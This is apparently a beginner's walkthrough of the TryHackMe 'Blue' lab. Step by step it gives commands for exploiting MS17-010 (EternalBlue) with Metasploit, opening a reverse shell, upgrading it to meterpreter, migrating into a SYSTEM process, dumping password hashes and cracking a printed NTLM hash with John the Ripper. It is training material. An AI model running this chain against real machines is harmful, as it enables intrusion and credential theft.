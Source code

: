 ```yaml
---
description: 'This is my walkthrough for the TryHackMe Room: Blue.'
---
```


# Blue

The room can be found [here](https://tryhackme.com/room/blue). This is a pretty straight forward room, the hints and video will pretty much help anyone through it as that's what this room is meant for, to help beginners learn.

## Task 1

### Question #1: Scan the machine

We'll scan the machine with Nmap first: sudo nmap -sS -sV -vv --script vuln -oA Blue 10.10.18.94

### Question #2: How many ports are open with a port number under 1000?

Looking through our scan results we can see:\


![Nmap Scan](<../../../.gitbook/assets/image (130).png>)

We can find our answer pretty easily.

### Question #3: What is this machine vulnerable to?

Our argument of --script vuln scanned the target for any known vulnerabilities, which returned:

![](<../../../.gitbook/assets/image (16).png>)

showing the target is vulnerable to: ms17-010

## Task 2

### Question #2: Find the exploitation code we will run against the machine. What is the full path of the code?

With Metasploit up and loaded we search for ms17-010. `search ms17-010`

![](<../../../.gitbook/assets/image (61).png>)

We can see a couple different modules but as this room is called "Blue" we can guess we're after the Eternal Blue module "exploit/windows/smb/ms17\_010\_eternalblue". Knowing that is the module we want we can type out "use exploit/windows/smb/ms17\_010\_eternalblue" OR use # as in the number next to the module. For me it's 0.

Usually when selecting a module it's good to run `show options` to see what options are required to be set for this module to run. In this case, the only option that is not already set for us is the RHOST option, or our target. We set that with `set rhosts 10.10.18.94` and can verify by running `show options` again.

The room does specify one more thing before we exploit the target, it would like us to change the payload to "windows/x64/shell/reverse\_tcp" by running `set payload windows/x64/shell/reverse_tcp`.

With this payload option set, we can type `run` or `exploit` to get our shell on our target.

![](<../../../.gitbook/assets/image (10).png>)

## Task 3

Background our newly obtained shell with CTRL+Z.

### Question #1: Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use?

There's a few ways to obtain the answer to this question but rather than use google, we can do what we did before and search within metasploit. `search shell_to_meterpreter`

this should return `post/multi/manage/shell_to_meterpreter`. So let select this module with `use 0`

### Question 2: Show options, what option are we required to change?

As mentioned before, when selecting a module to use, it's usually good to run `show options` to see what options are required to be set to run this module. Running this will show you we need to set the SESSION with `set SESSION 1`.

Once that completes, reconnect back to the backgrounded session with `sessions -i 2` and verify we are the SYSTEM by running `getsystem`, we can also type `shell` and run `whoami`.

![](<../../../.gitbook/assets/image (154).png>)

Now we want migrate to a different process that is running as SYSTEM, so lets background that shell again with `CTRL+Z(Only do this IF we are in the shell and not in the meterpreter session.)`, and let's see whats other processes are running on this system by typing `ps`. Once we find a process that is already being run from the `NT AUTHORITY\SYSTEM` user, we want to take note of the PID, for example, conhost.exe, for me that PID is 2480. We can run `migrate 2480` to then migrate over to that process.

This may or may not work for you so try different processes to migrate to.

## Task 4

### Question #1: What is the name of the non-default user?

From our meterpreter session, we can run hashdump to show us all the users and hashed passwords of the users on the system.

![](<../../../.gitbook/assets/image (67).png>)

### Question #2: Copy this password hash to a file and research how to crack it. What is the cracked password?

Once we copy Jons NTLM hash `Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::`. We can crack it for this we will use JohnTheRipper. I am running this from a personally setup VM so I have John installed into the /opt/ directory and will be using the classic rockyou.txt that I have stored inside SecLists password directory.

I have copied Jons hash to a file called jonhash in my current directory. So poninting JohnTheTipper at the hash and specifying the hash format and selecting the wordlist we want to use, we can attempt to crack the hash. `sudo /opt/john/run/john jon --format=NT --wordlist=/opt/SecLists/Passwords/rockyou.txt`

![](<../../../.gitbook/assets/image (6) (3).png>)

## Task 5

I ran `search -f flag*.txt` from the meterpreter session and was able to locate the path to flags1 2 and 3. So you can then cat the file paths to obtains the flags as well:

cat c:\\\flag1.txt

cat c:\\\Windows\\\System32\\\config\\\flag2.txt

cat c:\\\Users\\\Jon\\\Documents\\\flag3.txt
